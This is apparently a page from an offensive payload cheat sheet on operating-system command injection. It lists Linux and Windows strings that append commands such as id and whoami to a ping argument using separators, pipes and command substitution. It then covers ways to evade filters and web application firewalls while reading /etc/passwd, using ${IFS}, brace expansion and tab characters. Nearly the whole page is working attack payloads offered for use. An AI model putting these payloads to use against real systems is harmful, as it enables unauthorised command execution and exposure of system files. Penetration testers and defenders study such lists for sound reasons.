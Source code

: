 ### Linux/Unix Command Injection Examples

```bash
# Basic injection
ping -c 1 127.0.0.1; id
ping -c 1 127.0.0.1 && id
ping -c 1 127.0.0.1 | id
ping -c 1 127.0.0.1 || id

# Command substitution
ping -c 1 `id`
ping -c 1 $(id)

# Inline execution
{cat,/etc/passwd}
$(cat${IFS}/etc/passwd)
```

### Windows Command Injection Examples

```cmd
# Basic injection
ping -n 1 127.0.0.1 & whoami
ping -n 1 127.0.0.1 && whoami
ping -n 1 127.0.0.1 | whoami
ping -n 1 127.0.0.1 || whoami

# Command grouping
ping -n 1 127.0.0.1 & (whoami)
```

## Bypassing Filters and WAF

### Bypass Spaces

#### Linux Space Bypass
```bash
# IFS (Internal Field Separator) environment variable
cat${IFS}/etc/passwd
cat$IFS/etc/passwd
{cat,/etc/passwd}

# Brace expansion
{cat,/etc/passwd}
cat${IFS}/etc/passwd

# Tab character instead of space
cat	/etc/passwd  # Tab character (%09)

# $IFS$9 (older systems)
cat$IFS$9/etc/passwd
```

